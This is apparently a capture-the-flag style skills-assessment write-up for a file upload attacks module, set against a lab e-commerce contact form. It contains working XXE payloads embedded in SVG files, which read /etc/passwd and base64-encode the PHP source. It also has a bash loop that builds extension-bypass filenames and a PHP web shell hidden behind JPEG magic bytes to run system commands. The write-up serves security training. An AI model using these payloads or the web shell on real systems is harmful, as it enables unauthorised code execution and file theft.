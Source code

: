 # Skills Assessment

#### You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

***



For this Skills Assessment we have a web application with some default content, and we have to test the upload screenshot feature to test if there is any vulnerability.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

The main focus of this assessment is this page. We can access it by clicking in **Contact Us**. To capture the essential requests we don't need to actually submit the data, just press the green and black button above.

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

The POST Request should look something like this. And as we can see from the Response, we don't have  an actual storage location of the image.

Since we got a **base64** encoded string from the Response, we can try if we can retrieve the upload.php script from the server, and see where the images are being saved.

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Just by modifying the filename with a **.svg** extension we can execute XML code on the backend. Fortunately the the application does not have any protection to this and as we can see from the output above we manage to get the /etc/passwd with this code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Since we confirmed the web application is vulnerable to XXE, we can use this to read the web application's source files:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Now all we have to do is decode the **base64** string and hope that we got the source code of the upload.php file.

We can use the following command to do it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We manage to read the **upload.php** script! The **$target\_dir** indicates where the images are being saved. Also notice that the **$fileName** gives us an important information, the dog.jpeg is renamed to **currentdate\_dog.jpeg** once gets uploaded to the server. This important in order to try to reach the image.

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

And we manage to get the actual image URL. It should look something like this:

**`http://SERVER_IP:PORT/contact/hiddenpath/currentdate_filename.ext`**

\
Now lets try to bypass any image upload filtering.

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

We can use the same request used previously, we send it to the Intruder and made the following changes:

Add the selection to the filename

Keep the **ÿØÿà** - this is the ÿØÿà that will make the server read the content as a jpg file

Add the \<?php echo "shell test";?> to test the code execution

Create a word list with the following code:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do                      
    for ext in '.jpeg' '.jpg'; do
        echo "shell$char$ext.svg" >> wordlist.txt
        echo "shell$ext$char.svg" >> wordlist.txt
        echo "shell.svg$char$ext" >> wordlist.txt
        echo "shell.svg$ext$char" >> wordlist.txt
    done
done
```

Lastly, make sure to disable URL encoding and launch the attack.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this Request format we should look to the ones with a lenght over 366. In this case we select the **shell.phar:.jpg**.



<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And the PHP code was executed!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, lets send the same Request to the Repeater and make an actual shell.&#x20;

Add the **shell.phar:.jpg** to the filename and `<?php system($_REQUEST['cmd']); ?>` after the **ÿØÿà** signature and send it!

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

We add the **?cmd=id** to the URL and we are able to successfully execute a command!

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Now we just have fun wandering around to look for the flag and eventually made it!

